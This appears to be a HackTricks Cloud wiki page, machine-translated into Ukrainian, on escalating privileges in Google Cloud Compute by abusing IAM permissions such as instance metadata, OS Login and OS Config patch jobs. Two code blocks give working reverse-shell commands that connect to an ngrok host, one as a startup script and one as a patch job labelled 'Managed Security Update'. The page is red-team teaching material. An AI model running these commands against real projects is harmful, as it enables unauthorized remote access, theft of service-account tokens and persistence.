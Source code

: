 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережу) в GCP перегляньте:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Зверніть увагу, що для виконання всіх атак підвищення привілеїв, які вимагають зміни метаданих екземпляра (наприклад, додавання нових користувачів та SSH ключів), **необхідно, щоб у вас були права `actAs` на SA, прикріплену до екземпляра**, навіть якщо SA вже прикріплена!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

З цим дозволом ви можете **модифікувати** інформацію про **метадані** **екземпляра** та змінювати **авторизовані ключі користувача**, або **створити** **нового користувача з правами sudo**. Таким чином, ви зможете виконати SSH в будь-який екземпляр VM і вкрасти GCP Service Account, з яким працює екземпляр.\
Обмеження:

* Зверніть увагу, що GCP Service Accounts, які працюють в екземплярах VM, за замовчуванням мають **дуже обмежений обсяг**
* Вам потрібно буде **мати можливість зв'язатися з сервером SSH** для входу

Для отримання додаткової інформації про те, як експлуатувати цей дозвіл, перегляньте:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Ви також можете виконати цю атаку, додавши новий стартовий скрипт і перезавантаживши екземпляр:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ця дозволяє надає **ті ж привілеї, що й попереднє дозволу**, але для конкретних екземплярів, а не для всього проекту. **Ті ж експлойти та обмеження, що й для попереднього розділу, застосовуються**.

### `compute.instances.setIamPolicy`

Цей вид дозволу дозволить вам **наділити себе роллю з попередніми дозволами** та ескалувати привілеї, зловживаючи ними.

### **`compute.instances.osLogin`**

Якщо **OSLogin увімкнено в екземплярі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до екземпляра. Ви **не матимете root привілеїв** всередині екземпляра.

{% hint style="success" %}
Щоб успішно увійти з цим дозволом всередині VM екземпляра, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Якщо **OSLogin увімкнено в екземплярі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до екземпляра. Ви матимете **root привілеї** всередині екземпляра.

{% hint style="success" %}
Щоб успішно увійти з цим дозволом всередині VM екземпляра, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Можливо **створити віртуальну машину з призначеним обліковим записом служби та вкрасти токен** облікового запису служби, отримуючи доступ до метаданих для ескалації привілеїв до нього.

Скрипт експлойту для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Якщо у вас є **`osconfig.patchDeployments.create`** або **`osconfig.patchJobs.exec`** дозволи, ви можете створити [**роботу з патчами або розгортання**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Це дозволить вам переміщатися в середовищі та отримати виконання коду на всіх обчислювальних екземплярах у проекті.

Зверніть увагу, що на даний момент вам **не потрібен дозвіл `actAs`** на SA, прикріплену до екземпляра.

Якщо ви хочете вручну експлуатувати це, вам потрібно створити або [**роботу з патчами**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **або** [**розгортання**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Для роботи з патчами виконайте:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Щоб розгорнути патч-розгортання:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Інструмент [patchy](https://github.com/rek7/patchy) міг бути використаний у минулому для експлуатації цієї неконфігурації (але зараз він не працює).

**Зловмисник також може зловживати цим для постійності.**

### `compute.machineImages.setIamPolicy`

**Надайте собі додаткові дозволи** на образи обчислень.

### `compute.snapshots.setIamPolicy`

**Надайте собі додаткові дозволи** на знімок диска.

### `compute.disks.setIamPolicy`

**Надайте собі додаткові дозволи** на диск.

### Обхід доступу до обсягів

Слідуючи за цим посиланням, ви знайдете деякі [**ідеї для спроби обійти доступ до обсягів**](../).

### Локальне підвищення привілеїв у GCP Compute інстансі

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
